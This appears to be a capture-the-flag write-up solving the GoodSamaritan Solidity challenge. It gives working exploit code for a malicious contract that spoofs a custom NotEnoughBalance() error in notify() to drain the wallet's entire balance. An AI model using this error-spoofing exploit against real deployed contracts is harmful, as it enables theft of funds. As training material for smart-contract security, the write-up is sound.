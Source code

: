 # Answer

Goal: Drain balance of `GoodSamaritan` wallet.

## 1. Outside contract call vulnerability

Calling `requestDonation` follows this chain of functions:

`GoodSamaritan.requestDonation()` -> `Wallet.donate10()` -> `Coin.transfer()` -> (if `dest_` is contract) -> `INotifyable(dest_).notify(amount_)` -> transferring...

And here at the `notify(amount_)` is where we get control of the flow. If we take a look back at `GoodSamaritan.requestDonation()` if `wallet.donate10()` fails with an error `NotEnoughBalance()` it transfers all remaining funds to `msg.sender`. Custom errors are not contract dependant, that is it's impossible to tell from which contract the error originated.

So if our `INotifyable(dest_).notify(amount_)` throws this error we'll cause the same behaviour as low funds flow and transfer the whole wallet balance at once.

## 2. Malicious msg.sender contract

The requirements for the malicious `msg.sender` are as follows:

- has to be a contract
- has to implement `INotifyable.notify()` function
- has to check and only throw if the amount is small (10)

The last point is necessary due to after we forcefully fail the initial `deposit10()`, the contract will try to send the remainder balance to the same `msg.sender`. So we have to avoid throwing another `NotEnoughBalance()`. We end up with a contract like this:

```solidity
pragma solidity >=0.8.0 <0.9.0;

interface INotifyable {
    function notify(uint256 amount) external;
}

contract IGoodSamaritan {
    function requestDonation() external returns (bool enoughBalance) {}
}

contract MaliciousNotifier is INotifyable {
    error NotEnoughBalance();

    constructor() {}

    function notify(uint256 amount) external {
        if (amount <= 10) {
            revert NotEnoughBalance();
        }
    }

    function callGoodSamaritan(address goodSamaritan) external {
        IGoodSamaritan(goodSamaritan).requestDonation();
    }
}
```

## 3. Invoke the exploit

After deploying `MaliciousNotifier` we only need to call the `callGoodSamaritan` with the correct address and all funds will be drained.
